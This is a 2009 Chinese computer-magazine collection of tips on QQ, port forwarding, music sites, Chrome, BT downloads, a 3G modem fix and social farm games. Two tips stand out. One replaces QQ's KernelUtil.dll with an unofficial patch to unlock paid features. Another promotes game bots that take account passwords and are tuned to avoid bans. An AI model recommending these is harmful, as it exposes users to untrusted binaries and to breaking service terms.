我经常在QQ里帮朋友解决电脑问题，时常用QQ截图来说明，不过原先的QQ截图，要么只能加图形框，要么只能加文字，很不方便。现在好了，SP4中可以为QQ截图轻松加上图、文注解。

单击聊天窗口上的“屏幕截图”按钮，在截取图片后，图片下方会出现一个工具栏，随意选择工具给图片加上各种标注，如：箭头、文字、矩形等，如果添加有误，还可以单击“撤销编辑”按钮，最后单击“完成”按钮即可，方便多了吧。

## 实例3：画个圈圈不让QQ越雷池一步

QQ越做越大，自身所产生的“垃圾”也越来越多，导致每次QQ启动都很慢，并且浪费了许多硬盘空间。现在，QQ2009 SP4终于有了“自清”的功能。

单击“主菜单”按钮，选择“系统设置→基本设置”出现对话框，切换到“文件记录”选项，单击“清理个人文件夹”按钮，可以删除接收到的图片，也可以根据时间删除聊天消息记录。更方便的是，还可以设置个人文件夹的大小，当个人文件夹超过该数值时，会自动出现清理窗口，提醒我们进行清理。

# 高手支招：让非会员享受会员权利

QQ2009 SP3版，可以安装一个本地会员补丁，这样非会员也能享受部分QQ会员的功能，如：屏蔽广告、显示会员标志等。下载QQ2009 SP3本地会员补丁（网址：http://bbs.duba.net/redirect.php?tid=22091472&goto=lastpost），打开QQ安装目录中的bin文件夹，然后将压缩包中的KernelUtil.dll复制到该bin文件夹覆盖原来的文件（操作前请备份原文件），这样用非会员号码登录QQ时，就可以看到非会员在本机上也能享受的分会员的功能了。

## 让P2P软件飘起来——菜鸟也能玩的“端口转发”

家里的电脑越来越多，为了都能上网，一般要加装一个路由器，这就使得原来一台电脑的外网环境变成了多台电脑的局域网环境（内网）。这会导致BT下载速度变慢，以电驴为例，添加路由器后往往只能获得LowID，速度自然要打折。解决此问题一般要用到端口转发（也称端口映射，有些路由器的设置界面中称为“虚拟服务器”），不过这对菜鸟来说有些困难。现在好了，有了Simple Port Forwarding（以下简称SPF），一切变得超简单。

实战：SPF，让人人能玩端口转发

SPF是一款简单易用，专门用来设置路由器端口转发的程序。有了它，我们只要知道自己路由器的型号、管理账号及密码，就可以由它自动设置端口转发。它支持的路由器型号非常多，下面以思科无线路由器WRT320N为例演示。

- 第一步：从http://www.simpleportforwarding.com/下载SPF并进行安装，然后从http://work.newhua.com/cfan/200917/chs.zip地址处下载中文语言文件，解压后保存到SPF程序所在目录的Languages文件夹中，若有文件覆盖提示直接确认即可。
- 第二步：运行SPF，在最左下角的下拉列表框中选择“Chs | Chs”将其切换到简体中文。SPF运行后会自动获取路由器的管理IP地址，我们在“路由器”右侧的下拉列表框中选择路由器型号并输入管理的用户名和密码以及连接的类型、端口。注意，本例选择的是与WRT320N相近的WRT310N。

小提示：

SPF直接支持的应用程序有很多，点击程序数据库下拉按钮，可以看到许多熟悉的网络程序、游戏等，如Remote Desktop、iTunes、魔兽、Quake、BitComet等，而且这个数据库会时时更新。找不到的程序，可按上面的方法简单添加，其中的程序端口，可从程序的选项对话框中查找。

- 第三步：单击“+”按钮打开“添加新转发端口”对话框，在Database（数据库）标签中可以选择应用程序，以便SPF自动填写端口信息。如果使用的应用程序不在程序列表中或者是在程序中修改了默认端口，则可以切换到Add Custom（添加定制）标签（建议使用此项），然后填写端口转发的信息，单击“添加”按钮添加转发规则。
- 第四步：设置完毕，项目自动添加到主界面列表中，双击可以修改。如无修改，单击“更新路由器”，SPF会自动进入路由器设置界面进行端口转发设置。完成后，单击右侧路由器设定界面中的Save Settings（保存设定）保存端口转发设置就可以了。

扩展：按部就班用向导

还可以参考SPF的向导，按部就班进行端口转发设置。SPF初次运行时会自动打开“向导”对话框，也可以执行“工具→向导”命令调用它。向导一共列出了七个步骤，这些步骤并不都是必须的，只需完成2、4、5、6步骤即可。

如果要让路由器长期对某一电脑进行端口转发，建议使用“向导”对话框中的第3步设置本机为静态IP地址，从而保证路由器重启后，仍然能够正常进行端口转发。

小提示：设置路由器实现开机即上网

- 不少使用ADSL宽带的朋友，实际采用的是包月的上网方式，这样每次上网还要拨号就显得有些麻烦了。以WRT320N双频段无线路由器为例，在安装驱动及应用时，可根据配置向导提示选择PPPoE拨号方式，设置ISP网络连接的账户名及密码，即可实现开机即上网的效果。当然也可以进入路由器设置界面自己设置：依旧以WRT320N为例，它的路由器管理地址一般为192.168.1.1（其他品牌路由器会略有不同），进入后，选择PPPoE拨号方式并设置用户名及密码即可。
- Linksys by Cisco WRT320N组建无线网络：
电话线在ADSL调制解调器上的位置不变，将ADSL上的以太网电缆（即网线）接到WRT320N无线路由器标示Internet的黄色端口，再通过网线将计算机网卡与路由器上蓝色LAN端口相连，最后接上路由器电源即可。

(文/越野苍狼)

## 音乐达人的几个关键词

我是一个音乐达人，音乐就是我的全部。我也是一个网络达人，网络就是我的另一个世界。我还是QQ达人，近千个QQ好友就是我音乐分享的同盟军。请看我如何用网络让音乐变得触手可及……

关键词：心情找歌

伤心时我会听胡彦斌的婚礼进行曲，兴奋时我会听皇后乐队的We are the champions……这些歌都十分贴合我的心情。在QQ音乐中点击右上角“乐库”，再切换到“淘歌”页面，这里包含了许多心情标签，可以随时根据自己的心情来选择喜欢的音乐。

我们还可以发表自己的音乐心情，点击左侧音乐心情旁边的“发表”打开向导界面，首先搜索自己喜欢的歌曲，然后可以写下自己听这首歌的心情（33个汉字内），接下来可以看到其他人对同一首歌所作的评价，最后点击“关闭”按钮（或“保存到Qzone音乐盒”）即可。现在点击音乐心情下的“大杂烩”，可以看到你的心情音乐已被放在推荐列表里了。

如果喜欢上某首歌，还可以右击它，选择“乐库中搜索→按专辑”，QQ音乐马上能帮我们搜索出这首音乐所属的专辑，找到更多风格类似的歌来。

小提示：

- 没有安装QQ音乐的朋友，可以用迅雷快速找专辑：用迅雷6下载自己喜欢的歌曲后，点击左边的音乐→上面的专辑模式→选择已经下载的音乐→点击下面的歌曲补全，就可以了。

关键词：在线听歌

我所说的并不是一般的在线听歌，我说的方法，十分适合音乐达人在网吧、学校、办公室、图书馆等场所。这些地方，有时因条件所限无法安装QQ音乐等软件，所以大家常用网页播放器，比如百度音乐盒（http://box.zhangmen.baidu.com/），不过百度音乐盒的缺点是喜欢的歌曲不能随身带，这时我推荐大家用QQ音乐的网页播放器：打开http://y.qq.com/，登录后，在此不仅能听到多达26个排行榜的歌曲及精选的QQ绿钻背景音乐，还可以听到你在QQ空间上面收藏的好听音乐，自己喜欢的音乐随处可听。

有些音乐达人已经升级到音乐狂人的阶段了，不仅要在线听音乐，而且还要听超高品质的天籁之音。但是超高品质的音乐每首约在20MB以上，一般网站很少有，大都是以BT下载的方式提供，在外使用电脑时显然不方便下载。而在http://www.bitlet.org/music中，只要输入超高品质歌曲的BT种子的下载地址，然后点击Play（播放），就可以在线播放其中所包含的高品质歌曲了，而且有乐曲清单可供选择。（注意：如果本机没有安装Java虚拟机，它会提示下载安装）。

小提示：

- 在线听歌的网站有不少，像QQ音乐、酷我音乐（http://www.kuwo.cn/），除了提供客户端外，它们的在线网站音乐也很全面。其他纯在线音乐网站，如百度音乐（http://mp3.baidu.com/）、谷歌音乐（http://www.google.cn/music/homepage）、搜狗音乐（http://mp3.sogou.com/）等，不但歌曲非常全面，而且搜索功能超强，并提供各种热榜和专辑分类等。
- 高品质音乐网站，一般不提供在线欣赏功能，主要因为这些文件太大了。这里推荐大家使用VeryCD（http://www.verycd.com/），几乎所有风格的高品质音乐，这里都能下载到。

关键词：下载音乐

每一个QQ空间达人都会将自己最喜欢的音乐放在QQ空间的音乐收藏中，有人甚至会将其设置为背景音乐。当在空间中遇到好听的歌曲时，如何将它下载下来？QQ空间音乐下载器（下载地址：http://www.onlinedown.net/soft/74268.html）可以帮你忙。下载安装后，输入好友号码，点击“取空间音乐列表”即可获取该空间收藏的音乐地址，点击歌曲名字链接就可以下载了。

关键词：分享音乐

作为一个音乐达人，不仅要学会下载还要学会分享，一首好的音乐要多点人听到才是真的好。一个能上传并支持外链的网站，可以很好解决共享的问题，http://www.6621.cn/这个网站就可以实现，免费注册后任意上传音乐，即可得到众多的外链地址。最简单的分享方法就是复制“外链地址”，然后在QQ音乐中单击下方的“添加”按钮，选择“添加网络URL”，粘贴所得的歌曲网址，确定即可。这样在你播放这首音乐时，你的QQ好友就会看见，并且点击歌曲名字就可以在QQ音乐中分享到这首你独有的音乐了。

(广州/黄锴文)

## 谷歌浏览器4.0来啦！

你还在用谷歌浏览器Chrome 2.0？那你可Out（落后）啦，前不久Chrome已经推出了4.0，不过想升级到这个最新版本，还需要使用一些非常的手段。

首先从http://chromium.googlecode.com/files/chromechannel-2.0.exe下载安装谷歌Chrome通道转换器2.0，运行后显示对话框，要求你选择Chrome的更新版本。原来Chrome有Stable（稳定版）、Beta（测试版）、Dev（开发版）之分。Beta版每月更新，Dev版每周更新，它们新功能较多，但是Bug也多，稳定性不如Stable版。这里我们选择Dev版，然后单击Update（更新），确定后关闭通道转换器回到Chrome，点击右上角的扳手图标，选择“谷歌浏览器”，在关于对话框中会显示发现新版本，点击“立即更新”，更新完毕重启Chrome就可以了。

另外还有一种方法，就是直接下载软件安装（比较而言，没有上面的升级方法方便）。下载地址为：
Dev: http://www.google.com/chrome/eula.html?extra=devchannel
Beta: http://www.google.com/chrome/eula.html?extra=betachannel

实战：四海为家 书签同步

Chrome 4.0不仅浏览速度有所提升，而且还增加了书签同步功能，这样我们在任一地方浏览收藏的书签，在其他地方也可以轻松获取。

- 第一步：右击桌面上“谷歌浏览器”快捷方式图标，选择“属性”，在属性对话框的目标框中，在最后面加个空格，然后添加参数“--enable-sync”（不含外侧引号）。
- 第二步：双击修改过的快捷方式启动谷歌浏览器，单击扳手图标，选择Sync my bookmarks（同步书签）项，再点击登录自己的Gmail账户，就可以让谷歌浏览器收藏夹自动即时备份到服务器。在另外一台电脑上使用Chrome 4.0时，登录相同账号即可将书签自动同步下来，很方便吧。

小提示：

打开https://tools.google.com/chrome/intl/en/themes/index.html，这里Google提供了各种各样的漂亮皮肤，点击Apply theme（应用主题）就可以让自己的Chrome更漂亮了。

(文/侯忠)

## 不放弃，不抛弃——BT下载一半无进度之应变大法

我们有时会遇到下载一半却由于各种原因无法继续下载的情况，这时如果轻言放弃未免太可惜，还是让我们想想应对之策吧。

### 开启DHT+ED，告别Tracker服务器继续下载

常规的BT都是先从Tracker服务器上读取正在下载和上传的用户信息列表，然后根据这些信息自动连上别的用户进行下载和上传。不过，对于一些旧的种子文件，或者比较冷门的资源，很可能无法找到足够的种子用户进行下载。此时可以借助DHT公用网络和ED插件找到可以下载的资源。

对于比特彗星（BitComet）用户，首先需要下载ED（电驴插件）。启动BitComet后单击“工具→选项”，展开“任务设置→ED下载”，单击“下载电驴插件”，按提示安装ED插件。返回上述设置窗口，勾选“启用插件”。这样对于下载一半的资源，在BitComet的“正在下载”列表选中任务，右击选择“属性”，在打开的窗口中切换到“高级设置”，在任务设置下勾选“通过公用DHT网络寻找更多用户”和“查找ED下载源”。这样即使Tracker服务器被屏蔽或者没有用户，BitComet也会自动查找DHT网络资源和电驴资源继续进行下载。而迅雷用户默认就支持DHT网络，也可以直接下载电驴资源。

小提示：

- 有些BT资源是一些个人在白天做种提供下载，如果我们白天没有时间进行下载，或者在公司内网无法BT，还可以改变下载方式，将BT转换为HTTP下载。http://www.ppscity.com/就提供这个服务，它会先代替我们下载BT文件，然后再让用户高速地通过HTTP的方式把文件下载到计算机里。

### 更换/添加种子，寻找更健康的种子

BT下载，有时由于种子稀少，或者时间比较晚做种的用户逐渐减少，这就给我们的下载带来不便。此时如果无法下载（或下载速度很慢），可通过添加种子（或更换Tracker服务器）来加速。这里以迅雷5.9.4为例。

如果很多雷友都要下载同一资源，我们可以把当前种子另存发送给雷友，增加种子一起加速下载。在下载列表中选中正在下载的资源，右击选择“种子文件另存为”，将当前种子另存并发送给好友，好友打开下载后即可加速资源的下载。

如果下载速度很慢，还可以自行搜索该资源的其他Tracker服务器。首先根据文件名称、大小（需要和原下载的一致）找到新的、快的下载点。启动新的下载后暂停，右击选择“属性”，在打开的窗口中切换到“属性设置”，然后将服务器列表地址复制。操作同上，打开原来的下载服务器列表，将复制到的列表粘贴到Tracker服务器列表中继续下载即可。

BitComet用户同样也可以更换Tracker服务器，操作类似迅雷，找到新的、可用服务器列表，然后在任务属性列表添加即可。

(文/平淡)

## 3G上网遭遇“初始化失败”

为了能早日实现随时随地高速上网，朋友从铺天盖地的“G3、天翼、沃”的广告中，选择了具有强大主干网络资源的中国电信“天翼”。办理完业务回到家，他迫不及待地按照营业厅工作人员的演示步骤安装好上网程序，但是点击桌面上3G上网快捷图标“掌中宽带”运行上网程序，却显示“初始化失败”。反复尝试失败后，他找我来帮忙。

### 一波三折

我按常规手段检查：打开“设备管理器”，发现调制解调器有两个：“Agere Systems HAD Modem”是本本自带的有线调制解调器；“Data Modem @ EVDO(5533)”是3G无线调制解调器，查看属性都百分百正常。

又打开控制面板中的“电话和调制解调器选项”，将列出的计算机已安装的两个调制解调器进行“查询”也都能通过。真是奇怪，我接着打开“网络连接”，看到除“本地连接”和“无线网络连接”外，还自动生成了一个名为“China TeleCom”的拨号连接，查看它的属性：发现3G的拨号上网程序却连接使用的本本自带的有线“调制解调器——Agere Systems HAD Modem”。看来问题就出在在这里。于是我迅速在“设备管理器”里禁用了“Agere Systems HAD Modem”有线调制解调器，又在“电话和调制解调器选项”里删除掉它。然而重启后运行“掌中宽带”，故障“涛声依旧”。

最后甚至把“设备管理器”里的有线调制解调器卸载掉，将“网络连接”里的“China TeleCom”的拨号连接也删除了，重启后系统提示“发现新硬件”时也点击“取消”。再插上3G上网卡并运行“掌中宽带”，“初始化失败”很不给面子般又跳了出来……

### 追本溯源

把3G网卡从USB接口拔出，又插上，重复操作以观察“设备管理器”里的变化。发现插上3G上网卡后“设备管理器”里的“调制解调器”下不仅出现“Data Modem @ EVDO(5533)”，一项，还在“端口（COM和LPT）”下出现“Data Modem @ EVDO Diagnostic Serial Port: (WDM) (5533) (COM4)”一项。再查看3G无线上网调制解调器的端口号为COM2，本本自带的有线调制解调器为COM3，是否问题的根源就在这里？因为3G上网是通过COM4端口与COM3端口相互通信，而COM3端口却是本本自带的有线调制解调，所以造成3G通信端口COM4总是去“初始化”COM3端口陌生的有线调制解调器，这样不出现“初始化失败”才怪！

原因找到了，解决起来就相当简单：首先把本本自带的有线调制解调器“Agere Systems HAD Modem”的COM3端口改为COM6，当然COM6以后没用的端口号都可以。这样COM3的端口号就空出来了，再把原先3G无线调制解调器的端口COM2改成COM3。其次打开“网络连接”，把自动生成的“China TeleCom”拨号连接删除。最后重启，运行桌面“掌中宽带”，阿弥陀佛，终于显示“初始化完成”。不过先别激动，还得点击“网络链接”按钮，终于连接成功了。哇，标注为“速度3.1Mbps”，比有线还快呢。

(贵州/午夜听歌)

## 拒绝重装，让QQ和迅雷重新“绿”起来

为了方便系统重装后使用，很多朋友都把QQ和迅雷安装到非系统分区。不过，近来一些网友发现：自从QQ升级到2009SP3，迅雷升级到5.9.6.1018新版后，这两款原来准绿色的软件在系统重装无法运行。难道一定要重装它们才能使用？其实只要动动手就可以让它们重新“变绿”。

为什么重装系统后QQ和迅雷无法运行？这是因为安装这两款软件时写入系统目录的文件，在重装系统后丢失了。因此我们只要把缺失的文件补齐即可。为了避免以后碰到类似故障，可以借助TotalUninstall（下载地址http://www.onlinedown.net/soft/23140.htm）监控软件安装，找出写入系统目录的组件。

- 第一步：运行程序后单击“模块→监视的程序”，单击“添加根组”，添加一个名为“我的监视”的群组。单击程序界面的“安装”，程序会先建立一个系统快照。完成后在安装的监视程序下输入“迅雷”，安装程序路径导入迅雷安装程序，单击“装入安装程序”即可开始安装迅雷。
- 第二步：安装完成后单击“完成最近监视进程”退出程序，下次重启程序单击“安装的程序”，在程序主界面展开迅雷监控记录，可以看到迅雷安装时会往系统目录写入“mfc71u.dll”文件。重装系统后正是由于这个文件缺失导致迅雷无法启动，因此我们只要在重装系统之前，把系统目录下的“mfc71u.dll”文件复制到迅雷安装目录，即可解决重装后无法运行故障。
- 第三步：对于QQ2009，监测结果发现在C:\Program Files\Common Files\Tencent\TXSSO\Bin\目录下写入了SSOAxCtrlForPTLogin.dll，SSOCommon.dll，SSOPlatform.dll这三个DLL文件。现在把上述文件复制到QQ安装目录/bin下即可。

绿色软件如果突然不“绿”了，大多是由于软件写入系统目录一些文件缺失所致。大家不妨使用上面方法来修复运行故障。

小提示：

- 如果复制上述三个文件后仍然无法运行，说明电脑没有安装Microsoft Visual C++ 2005运行库（QQ就是使用VC++2005编译的），可以到http://www.microsoft.com/downloads/details.aspx?familyid=200B2FD9-AE1A-4A14-984D-389C36F85647&displaylang=zh-cn下载安装即可。

(文/平淡)

## 火狐，没手机也能玩的GPS

提起GPS，别人总觉得这是移动手机等的专利，其实不然。小C在外出旅游时，就通过火狐（Firefox）快速定位自己的位置，然后轻松找到最近最便捷的餐馆或者旅店的。

出外游玩时，打开自己的笔记本（当然需要能无线上网），启动火狐后登录http://zh-cn.www.mozilla.com/zh-CN/firefox/geolocation/。在出现的页面中点击“试试看”，再在出现的地图上点击“我在哪？”。这时为了保护安全，火狐会在页面最上方显示“共享方位信息？”的提示，点击“共享”，就会出现你的方位信息了。如果你使用的是Nokia S60、Windows Mobile、Blackberry以及所有支持Java平台的手机，可从http://www.google.cn/gmm/下载安装谷歌手机地图中国版。这样即使你的手机没有GPS功能，也可以及时定位自己所处的位置，了解周边交通路线以及娱乐餐饮地点等。它的界面和操作与网页谷歌地图相似，使用很简单。

### 免插件播放影音视频

火狐3.5开始支持HTML5。HTML5是一种新的网页标准，它将网页变成一个真正的应用程序。它增加了支持多媒体的视、音频标签，具有缓存以及索引功能。在不需要插件的情况下，即能播放传统的影音媒体及新的网络动画。

打开示例网页http://htmifive.appspot.com/static/gifter.html，这是一个应用了HTML5技术的动画演示，按方向键我们可以在虚拟的动画世界中漫游，按空格键则可以跳跃，是不是很有意思。

小提示：

- 现在许多手机都内置了GPS模块，以诺基亚为例，安装导航软件Route66，打开应用程序→GPS数据→位置→选项→卫星状态，直到出现经纬度，然后打开自带的Navigator，就可以在出现的地图上看到自己地理方位处的便民服务了。

(文/鸣沙)

## 贾君鹏，开心农场里的菜熟了

开心农场之风越刮越猛，如果你还没开过农场，没有偷过菜，那你早就OUT啦。不过，农场并非一家，各家有各家的玩法，你知道吗？

### 开心网农场偷菜忙

国内SNS网站中，开心网（http://www.kaixin001.com）农场较早地刮起“偷菜”风。登录后，点击“买房子→花园”即可进入农场。

- **秘技1：跟地主家借点余粮**
如果你刚刚注册，还没有资金买种子种菜，这时可以先向其他好友借点钱度日。不过开心网中无法直接送钱，只能让好友送你东西，然后你再变卖。好友打开他的仓库，点击某一物品打开物品清单，再点选“赠送”，输入你的名字，最后点击“赠送”即可（注意：偷来的菜不能赠送）。赠送完毕，你就可以打开自己的仓库，点击“全部出售”将收到的礼物换成钱了。

- **秘技2：农场快速挣钱法**
农场里较快的挣钱方法，莫过于收车费。登录开心网后，点击左侧“添加组件”，选择添加“争车位”组件，成功后将自动获取100元基金及一辆二手小奥拓。在争车位界面右侧，可以看到好友的车位情况，点击好友名单进入对方车场，再点击“停车”停放。随着时间分分秒秒过去，停车费会越来越多，等车费差不多时，再换一个好友的车位停车，即可提现了。挣足车费后，重新进入“买房子”组件中，点击页面中的“导入争车位资金”，就可以把钱打入农场使用了。

小提示：
★ 当在争车位中赚够一定的钱之后，可以点击上方的“道具→道具商店”，购买一张旧车回收卡，如果有好友赠送给你非常昂贵的车，可以用此卡将该车原价卖掉，这样也可快速挣钱。
★ 开心网有多个小号的朋友，如果想同时登录，可使用IE浏览器，点击“文件→新建会话”打开新的IE窗口，用这个方法新建的窗口，可以登录开心网另外的账号而不会引起冲突了。
★ 开心网新增有钓鱼组件，添加后即可获得一个鱼场及少量基金。进入后，点击上方的商店图标，购买鱼苗放养。另外还可以购买钓具，去其他好友的鱼场，点击“下杆”即可安静垂钓了。

### 秘技3：不劳而获自动偷菜

我既是一个懒人（主要是没太多时间），又不想在“偷菜”方面落于人后，因此开心助手（下载地址：http://chenyehaohome.appspot.com/kaixin）这样的软件比较适合我。下载绿色完整版之后，解压，双击其中的kaixin.exe运行程序。单击“添加账号”，输入自己的开心网账号及密码登录，成功后自动添加到账号列表中（可以添加多个账号），勾选某个账号，然后执行菜单命令“游戏→花园→打理花园”（工具栏有对应的快捷按钮），软件即会自动收获、浇水、犁地、种植等。如果选择“打理好友花园”，则软件将定时扫描所有好友花园的状态，如作物长势、收获时间等，并会自动进行浇水等操作。这一软件，包括了开心网大部分游戏，如自动争车位、钓鱼、朋友买卖等，非常方便。

与开心助手的大而全不同，开心网花园外挂（090829）则专注于开心花园的操作。从http://work.newhua.com/cfan/garden090829.rar下载软件解压后，双击其中的“开心网外挂.exe”运行。在主界面上方，输入自己的开心网账号及密码，然后单击“加载好友”，很快扫描出所有的好友列表，并标示出可以操作的项目，如偷果实、偷动物、浇水、送礼等。根据自己的需要勾选各种选项，并设置好检测时间后，点击“保存设置”，然后就可以坐享其成了。

不过做人莫太贪，检测时间不要设置在10分钟之内，以免被开心网封号。另外，除草等功能每天有上限，不需每次都勾选检测，如提示偷取次数已满时，建议最好关闭外挂。注意：随着开心网的不断升级，外挂可能会失效，所以外挂迷们要随时注意外挂的升级。

### 企鹅种菜，QQ 农场也开心

QQ空间也开起了农场。为了比别人更快地升级，你需要掌握一些技巧和工具。

- **秘技1：揭秘升级最快的作物**
在QQ开心农场中，不同的作物有不同的收成。刚在农场安家，就去狂种白萝卜，这样可以快速升级。当然种菜就是为了赚钱，当达到六级时就种胡萝卜，七级之后种豌豆。具体操作时有一些小技巧：通过快捷键可以快速选择工具，按Q键快选浇水，按W键快选除草，E键为杀虫，R键则为收获自家果实或偷好友的菜。

小提示：
★ 在QQ空间的“个人中心”中，点击左侧“应用列表”边上的“添加”，找到“QQ农场”，点击“添加该应用”即可添加QQ农场。不过要注意：QQ空间开心农场每天的开通是有名额限制的（黄钻或红钻的话有优先权），所以普通用户要想开通就要每天早点去。

- **秘技2：请个帮手管农场**
一个好汉三个帮，QQ开心农场也不例外。在开心农场里，最开心的就是“偷”朋友的劳动果实来“炫”，或者给别人造成小破坏了，不过却不想自己辛苦种出的作物被好友“偷”去。那我们就请个帮手来管家吧。
首先从http://download.it168.com/79/107/118078/index.shtml下载QQ开心农场小帮手，然后用自己的QQ号登录。成功后，就可以看到自己农场的所有信息，还可以清楚地看到自己的土地里的作物是否成熟，什么时间成熟等。点击左上方的“挂机设置”按钮，按照自己的操作习惯或是偷菜时间段来定义适合自己的设置。点击“确定”，最后点击主界面的“开始挂机”按钮，软件就自动开始进入挂机状态。这时，你可以去倒杯咖啡，悠闲地开始别的工作，一切都可以交给小帮手，过段时间检查你的仓库，是不是已经有了很大的收获了。

- **秘技3：清除QQ农场里的陌生人**
不少人发现，许多不是QQ好友的人也能偷自己的菜，而自己却不能偷他的，非常郁闷。实际上，这可能是你之前加过别人好友，后来又删除了，但是对方并没有删除你，所以他能偷而你不能。作为一个补救的办法，就是恢复这些好友。打开http://huifu.qq.com/，输入自己的QQ号码及密码登录后，在新页面中点击“恢复QQ好友”，即可恢复三个月内被删除的好友了（会员可以恢复六个月的）。恢复之后，你便可以偷他们的了。但如果你特别讨厌某人的话，最好选择拖黑名单的方式彻底删除，这样他也就偷不了你的菜了。
另外要注意的是，QQ校友里的好友也是可以偷的，即使没有加为QQ好友。

（文/流言 鸣沙）

## 登录也无忧——谨防已登录QQ泄密

QQ登录前的保护措施已经很多，可一旦成功登录QQ，这时任何人都可以看到QQ里的秘密。比如电脑临时借给同事使用，可是自己又不想退出QQ，此时如何保护自己的聊天记录、通信录等信息不被他人看到？且看CFan为你支招！

### 个人通信记录，请勿查阅

QQ通信录保存了许多重要友人的联系资料，登录QQ后这些资料便可一览无遗，能不能为通信录单独加密码？QQ本身未提供此服务，但我们可以“曲径通幽”。
第一步：登录QQ安全中心http://aq.qq.com/cn/findpsw/findpsw_index?reLogin=true，按提示输入QQ账号，密码类型选择“其他密码”，然后选择“通信录密码”，单击“下一步”。
第二步：选择“通过验证密保找回密码”，然后按提示输入自己设置的密保问题重置密码。密码设置好后返回QQ面板，现在展开通信录就要输入密码才能查看其中的内容了。通过上述方法，我们也可以为网络硬盘、邮箱或者邮箱中的“我的文件夹”设置密码。

### MM 聊天记录，切勿偷窥

假如你正在公司和一位MM聊得起劲，突然领导交代要出去办点事情，你不想让QQ下线，更不想被单位同事偷窥聊天记录，怎么办？此时借助PC Security可以锁定和指定好友的聊天窗口。

PC Security小档案：
软件版本：6.4
软件大小：1072KB
运行环境：Windows 2000/XP/2003
下载地址：http://www.newhua.com/soft/14629.htm
汉化补丁：http://www.newhua.com/soft/14630.htm?from=ruanzai.net

打开需要锁定聊天记录的好友对话窗口并最小化到任务栏。接着启动PC Security，按提示输入默认密码SECURITY进入程序主界面。单击“查看→窗口锁定”，单击“添加锁定”，然后在打开的窗口中选中和好友聊天的窗口标题。再在窗口标题中选中需要锁定的窗口，单击“锁定窗口”即可锁定它了。
单击PC Security关闭按钮将它最小化到任务托盘，这样别人既无法查看这个窗口，同时也无法对这个窗口进行任何操作，当然也就无法查看聊天记录了。而且，这个聊天窗口虽然被锁定，但是仍然可以接收聊天对话信息，自己回来以后单击“解除锁定”即可继续聊天。如果要彻底隐藏聊天窗口，还可以将聊天窗口锁定设置为“询问密码”，则聊天窗口会自动变为PC Security输入密码询问框，只有输入正确密码才能看到聊天窗口。

### 马虎大意也不怕，自动关闭聊天窗口

如果临时有事离开电脑，忘记关闭和MM的聊天窗口，而又被BOSS查岗看到可就不好了。我们可以借助Robtask（下载地址：http://www.onlinedown.net/soft/50466.htm）定时关闭指定聊天窗口，以防万一。
第一步：运行Robtask后单击“新建→任务”，在新建任务窗口中单击“添加”，操作选择“Windows→Windows command”，单击“选择”打开程序选择窗口，在窗口列表中选中与MM的对话窗口，窗口操作命令选择“关闭”。
第二步：依次单击“确定”返回任务窗口，切换到“触发事件”，单击“添加”，触发事件选择“Windows→Windows watcher”，在窗口监视设置中同样选择上述聊天窗口，监视选择“窗口创建”。
第三步：返回任务窗口，右击新建任务去除“启用”前的勾选将其禁用。再次右击选择“在桌面创建快捷方式”，这样在桌面会创建一个“Close window - 与 XX 交谈中...”快捷方式。右击该快捷方式选择“属性”，可以看到其运行的命令为“C:\Program Files\Robtask\RTaskRun.exe” $7B1E2D59”。
第四步：打开任务计划，新建一个每天空闲时运行的任务，执行命令是“C:\Program Files\Robtask\RTaskRun.exe” $7B1E2D59”，每当空闲时间超过10分钟后执行（时间长短可自定）。这样只要我们离开电脑10分钟，就会自动关闭指定的聊天窗口。

小提示：
★ 注意：本软件是共享软件，会有30天的时间使用限制。
★ 新版QQ2009SP3中，按下Ctrl+Alt+L键即可快速锁定QQ2009。与之相比，PC Security的优势则是除了QQ外，其他可能会涉及隐私的软件，如MSN、浏览器、邮件程序等，都可以使用。PC Security除锁定外还有隐身等其他功能。

（文/俞木发）

## 开复，你也推推我啊——缘在微博客

2009年9月6日，我兴致勃勃地告诉一个朋友：你知道吗？谷歌的李开复要出一本《世界因你不同》的自传了。我那朋友嘿嘿冷笑：你真Out了，开复早从谷歌辞职啦。看我目瞪口呆的样子，朋友解释说：开复9月4号就在他的微博上说了啊，你呀，快去申请微博客吧……

### 小知识：什么是微博客？

★微博客，你可以理解成小型博客、迷你博客，它的特点就是短小、随意，一两句话即可成博。微博客能随时随地通过网络或手机发布信息，通过它也可以全面掌握好友动态及周边新闻，比如逛街时打开手机查看微博，可以查查哪个商场在打折、促销等。

### 追随开复，新浪上面抢“围脖”

要追随开复，就先到新浪微博上 (http://t.sina.com.cn) 去抢注吧。新浪微博需邀请码才能加入，可以跟熟人求邀请码，也可以自己去淘。首先登录新浪首页“注册通行证”，再打开http://ka.sina.com.cn/gm_info.php?id=866&dpc=1，点击其下“立即领取”，用新浪通行证账户登录后，将显示领取须知，运气好的话点击“存卡箱”即可获取。如果存卡箱里没有，可继续在上面的网址点击“淘一下”，输入验证码并点击“确定”，即可淘到一些邀请码。复制所得的号码并点击激活地址后的链接进入激活页面操作。不过淘到的号码不一定有效，我试了十多次之后才得到一个有效号码（显示有人尝试过的号码就不用再试了）。

### 想入创新工场 盯紧开复动向

我有一个商业计划，却苦于没有资金的支持，李开复的“创新工场”不正是为我这样的人而立？为了增加进入创新工场的机会，看来要盯紧开复微博才能获取第一手信息啊。首先要找到开复在新浪的微博客，可以从“名人堂→IT·互联网”中查找，第一位就是他了，地址为：http://t.sina.com.cn/kaifulee。点击进入他的主页后，单击头像下的“加关注”绿色按钮，开复的各种动态就实时显示在我的主页上了。

### 好险，差一点就丢失的手机通信录

一直为找投资的事东奔西走，某天在见过一个客户回来之后，一摸口袋发现手机丢了。我所有朋友和客户的联系方式基本上都存在手机通信录中，丢失的话损失就大了。还好，我想起在中国移动的139说客上同步过资料，应该还有备份吧。注册中国移动的139说客很简单，登录http://www.139.com/后，点击“免费激活”链接，按提示输入自己的手机号，点击“免费获取激活码”，再在网页中按提示输入收到的手机验证码、姓名（我用了笔名）、密码等，确定后就可以开通了。登录139说客后点击“马上就行动”按钮，进入139联系手机客户端下载页面。按照提示，选择自己的手机品牌、型号并点击“立即下载”，手机将收到一条安装信息，提取其中的链接下载并在手机中安装软件，运行后即可通过联系软件将自己手机上的联系人同步到139社区上了。如果是换手机，可以将sim卡插入新手机中，同样下载安装联系软件，即可将上传的通信录再恢复到新手机中。如果手机丢失，同样能从139说客中将通信录找回。而且因为有急事要联系其中某人，还可以登录自己的139说客，点击“管理联系人”从中查找联系人。如果对方也是139说客，你还可以在线发送短信给他（最多可群发5个人）。

